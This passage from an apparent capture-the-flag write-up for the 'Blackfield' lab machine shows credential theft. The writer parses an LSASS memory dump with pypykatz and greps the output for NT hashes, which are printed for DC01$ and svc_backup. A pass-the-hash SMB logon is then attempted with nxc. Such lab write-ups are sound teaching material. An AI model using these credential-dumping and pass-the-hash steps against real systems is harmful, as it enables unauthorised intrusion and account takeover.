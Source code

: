 Let’s use pypykatz to read the dump:

```bash
pypykatz lsa minidump lsass.DMP > lsass.out
```

Now let’s filter for the NT hashes. Let’s filter for administrator

```bash
grep NT lsass.out -B3 | grep -i Administrator -B5

                Username: DC01$
                Domain: BLACKFIELD
                LM: NA
                NT: b624dc83a27cc29da11d9bf25efea796
--
                Username: Administrator

```

Let’s see if we can logon as Administrator:

```bash
nxc smb 10.10.10.192 -u Administrator -H b624dc83a27cc29da11d9bf25efea796 --shares
```

Denied. Another user we saw in the file is svc_backup. Let’s see if this credential is valid:

```bash
 grep NT lsass.out -B3 | grep -i svc_backup -C10
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
--
                Username: DC01$
                Domain: BLACKFIELD
                LM: NA
                NT: b624dc83a27cc29da11d9bf25efea796
--
                Username: DC01$
--
                Username: DC01$
                Domain: BLACKFIELD
                LM: NA
                NT: b624dc83a27cc29da11d9bf25efea796
--
                Username: DC01$
                Domain: BLACKFIELD
                LM: NA
                NT: b624dc83a27cc29da11d9bf25efea796
--
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
--
                Username: DC01$
                Domain: BLACKFIELD
                LM: NA
                NT: b624dc83a27cc29da11d9bf25efea796
--
                Username: DC01$

```
